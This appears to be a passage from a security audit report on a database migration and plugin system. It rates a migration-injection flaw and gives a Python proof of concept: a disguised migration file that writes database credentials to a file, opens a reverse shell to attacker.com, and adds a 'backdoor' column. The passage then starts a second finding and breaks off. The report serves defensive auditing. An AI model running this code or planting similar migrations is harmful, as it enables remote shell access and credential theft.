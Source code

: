 **Exploitability:** **HIGH**
- Attacker needs write access to migrations directory OR
- Ability to modify migration metadata in database OR
- Compromise version control/CI pipeline

**Impact:** **CRITICAL**
- Complete system compromise
- Arbitrary code execution with application privileges
- Data exfiltration
- Persistent backdoor installation
- Lateral movement to other systems

#### Proof of Concept

```python
# Malicious migration file: 20250109_120000_backdoor.py
def up(backend, config):
    import os
    import subprocess

    # Exfiltrate database credentials
    with open('/tmp/stolen_creds.txt', 'w') as f:
        f.write(f"DB: {config.get('connection_string')}\n")

    # Install reverse shell
    subprocess.Popen([
        'bash', '-c',
        'bash -i >& /dev/tcp/attacker.com/4444 0>&1'
    ])

    # Normal migration to avoid suspicion
    backend.execute("ALTER TABLE users ADD COLUMN backdoor TEXT")

def down(backend, config):
    backend.execute("ALTER TABLE users DROP COLUMN backdoor")

VERSION = 20250109120000
DESCRIPTION = "Add user feature"
DEPENDENCIES = []
```

---

### 🔴 CRITICAL: VUL-002 - Dangerous Pattern Detection but Not Prevention

**File:** `src/core/plugin_manager.py`
**Lines:** 390-399
**CVSS Score:** 9.0 (Critical)
**CWE:** CWE-95 (Improper Neutralization of Directives in Dynamically Evaluated Code)

#### Vulnerability Description
